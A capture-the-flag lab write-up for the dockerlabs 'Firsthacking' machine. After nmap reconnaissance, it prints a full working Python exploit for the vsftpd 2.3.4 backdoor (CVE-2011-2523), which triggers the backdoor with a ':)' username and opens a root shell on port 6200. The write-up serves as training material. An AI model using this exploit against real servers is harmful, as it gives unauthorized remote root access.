



# Firsthacking lab
src: https://dockerlabs.es/

## Reconnaissance
We start by checking which services are running on the victim host using nmap with the -sV flag to get the software versions.

Command: nmap -sV 



## Vulnerability Analysis
That version of `ftp` is vulnerable to vsftpd 2.3.4 - Backdoor Command Execution. To exploit this, we can refer to the following code: 
``` python 
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()


```

## Context
Attackers injected malicious code into the vsftpd server update. This backdoor is triggered by using a username ending with :), which executes a fork() and opens a hidden port (6200). (If using the script, it also launches a shell)

## Exploitation
With this port open, we run the script to access the shell.





Result: Remote Root Access achieved.